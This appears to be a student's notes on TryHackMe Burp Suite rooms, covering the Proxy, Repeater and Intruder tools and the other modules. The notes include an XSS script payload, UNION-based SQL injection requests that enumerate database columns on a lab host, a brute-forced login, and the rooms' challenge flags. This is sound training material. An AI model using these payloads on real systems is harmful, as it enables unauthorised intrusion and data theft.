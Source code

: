 # Burp Suite - 

**Overview**

We are exploring the different tabs Burp Suite offers. The most important tabs
are (a) Proxy: make request (b) Repeater: we intercept the request, make change
and resend it. Other modules include:
- Intruder: brute force
- Sequencer: measure entropy in tokens
- Decoder: similar to codechef magic
- Comparer: comparing two files bytes per bytes or char by char


## Burp Suite - The Basics

- Tools in Burp Suite:
    * Proxy: intercepting requests/response
    * Repeater: intercept and modify requests
    * Intruder: bruteforce attacks or fuzz endpoints
    * Decoder: encoding or decoding payload
    * Comparer: comparing files bytes per bytes
    * Sequencer: assess randomness in token or cookie session
- Views in dashboard: Tasks, Event Logs, Issue Activities, Advisory
- Project options tabs: connections, http, tls, sessions, misc
- 'Proxy' Introduction
- 'Target' Introduction
    * Site Map
    * Scope
    * Issue Definitions
- To perform XSS using Burp Suite: intercept package and change payload before forwarding

```
>>> Forward and backward in tickets
THM{NmNlZTliNGE1MWU1ZTQzMzgzNmFiNWVk}

email=pentester%40example.thm&content=test+attack
<script>alert('Succ3ssful XSS');</script>
>>> email=<script>alert('Succ3ssful XSS');</script>&content=test+attack

```

## Burp Suite - Repeater

- change: `Connection: close` to `Connection: open` => `Connection: keep-alive`
- Inspector: 'skipped'


**Practical 1: adding header in request**

```
>>> FlagAuthorised: True
THM{Yzg2MWI2ZDhlYzdlNGFiZTUzZTIzMzVi}
```


**SQLi Injections**

Goal: we see that if we modify GET requests, it modifies select statement.
We will use SQLi injection to find the flag

In repeater:

---
GET /about/2' HTTP/1.1
Host: 10.10.252.34
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/113.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-CA,en-US;q=0.7,en;q=0.3
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
---

<code>Invalid statement: <code>SELECT firstName, lastName, pfpLink, role, bio FROM people WHERE id = 2'</code>

>>> GET /about/0 UNION ALL SELECT column_name,null,null,null,null FROM information_schema.columns where table_name='people' HTTP/1.1


>>> GET /about/0 UNION ALL SELECT group_concat(column_name),null,null,null,null FROM information_schema.columns where table_name='people' HTTP/1.1

       <title>About | id,firstName,lastName,pfpLink,role,shortRole,bio,notes None</title>

THM{ZGE3OTUyZGMyMzkwNjJmZjg3Mzk1NjJh}

## Burp Suite - Intruder

We can use the 'Intruder' to send payload. Different attack types
* Sniper: send several payload -> if we have two list, test all combinations (brute force)
  + ex: replacing username=$username&password=$password
* Battering Ram: send the same payload to each field
  + ex: replacing username=$field&password=$field
* Pitchfork: given two list test with same index (zip)
  + ex: replacing username=$usernames[i]&password=$password[i]
* 


username=m%2erivera&password=letmein1


## Burp Suite - Other Modules


- Decoder Module: act like CyberChef 'Magic' to encode/decode hash and string

>>> md5sum * (for the keys)

- Compararer: comparing files bytes or ASCII side-by-side

- Sequencer: measure entropy (randomness) of strings (TO REVIEW)

## Burp Suite - Extender

The 'Extender' can be used to download community extension.
We have downloaded [jython jar standalone file](https://www.jython.org/download)


